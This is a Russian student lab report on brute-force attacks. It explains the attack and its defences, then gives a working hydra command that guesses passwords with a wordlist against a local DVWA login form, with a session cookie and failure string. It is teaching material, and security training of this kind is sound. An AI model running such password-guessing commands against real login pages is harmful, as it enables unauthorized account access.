

---
## Author
author:
  name: Миази Мд Шахадат Хоссейн
  email: 1032235323@rudn.ru
  affiliation:
    - name: Российский университет дружбы народов
      country: Российская Федерация
      postal-code: 117198
      city: Москва
      address: ул. Миклухо-Маклая, д. 6
	  
## Title
title: "Доклад по этапу проекта №3"
license: CC BY
date: today
date-format: "YYYY-MM-DD"
---

# Цели и задачи работы

## Цель лабораторной работы

Целью данной работы является изучение атак типа брут-форс и инструмента hydra.

# Процесс выполнения лабораторной работы

## Введение

Атака брут-форс (англ. brute force attack) — это метод взлома, основанный на последовательном 
переборе возможных комбинаций значений (паролей, ключей шифрования и т. д.), 
чтобы подобрать правильное значение и получить несанкционированный доступ.

## Введение

Атаки брут-форс являются одним из самых простых, но эффективных способов взлома учетных записей, 
если системы не защищены должным образом. 

Сильные пароли, ограничения на количество попыток входа и двухфакторная аутентификация 
могут значительно уменьшить вероятность успешной атаки.

## Страница веб-формы

{ #fig:001 width=70% height=70% }

## Команда для запуска hydra

```bash

hydra -l admin -P /usr/share/dirb/wordlists/small.txt \
 localhost http-get-form "/DVWA/vulnerabilities/brute/ \
 :username=^USER^&password=^PASS^&Login=Login: \ 
 H=Cookie: PHPSESSID=f2q94tbasiksr9q31mlg9d4qum; \ 
 security=medium:F=Username and/or password incorrect."  \
 -V

```

## Результат подбора

{ #fig:003 width=70% height=70% }

# Выводы по проделанной работе

## Вывод

Мы приобрели знания об атаках брут-форс и инструменте hydra.